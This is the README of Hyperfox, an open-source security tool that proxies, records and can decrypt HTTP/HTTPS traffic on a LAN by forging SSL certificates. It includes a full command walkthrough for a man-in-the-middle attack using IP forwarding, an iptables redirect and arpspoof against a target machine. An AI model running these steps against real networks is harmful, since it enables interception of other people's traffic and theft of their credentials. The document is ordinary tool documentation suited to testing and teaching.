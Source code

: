 # Hyperfox

[Hyperfox][1] is a security tool for proxying and recording HTTP and HTTPs
communications on a LAN.

![Hyperfox diagram](https://hyperfox.org/images/hyperfox-diagram.png)

Hyperfox is capable of forging SSL certificates on the fly using a root CA
certificate and its corresponding key (both provided by the user). If the
target machine recognizes the root CA as trusted, then HTTPs traffic can be
succesfully intercepted and recorded.

![Hyperfox SSL](https://hyperfox.org/images/hyperfox-diagram.png)

This is the development repository, check out the [https://hyperfox.org][1]
site for usage information.

## Getting Hyperfox

Install with [Go][1] and [git][5] using `go get`:

```sh
> go get github.com/xiam/hyperfox
```

Precompiled packages may also be available at the [hyperfox.org][1] site.

## A common example: hyperfox with arpspoof

The following example assumes that hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the `arpspoof` tool that is part of the [dsniff][4] suite
to alter the ARP table of the target machine in order to make it redirect its
traffic to Hyperfox instead of to the legitimate LAN gateway. This is an
ancient technique known as [ARP spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
> sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
> export HYPERFOX_GW=10.0.0.1
> export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
> export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
> sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule to instruct the host to redirect all traffic that goes
to port 80 (commonly HTTP) to a local port where Hyperfox is listening to
(1080).

```sh
> sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare hyperfox to receive plain HTTP traffic:

```sh
> hyperfox
...
2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpspoof` to alter the target's ARP table so it starts sending
its network traffic to the host box.

```sh
> sudo arpspoof -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

## Contributing to Hyperfox development

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-2014 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: https://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: http://monkey.org/~dugsong/dsniff/
[5]: http://git-scm.com
[6]: https://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/xiam/hyperfox/issues
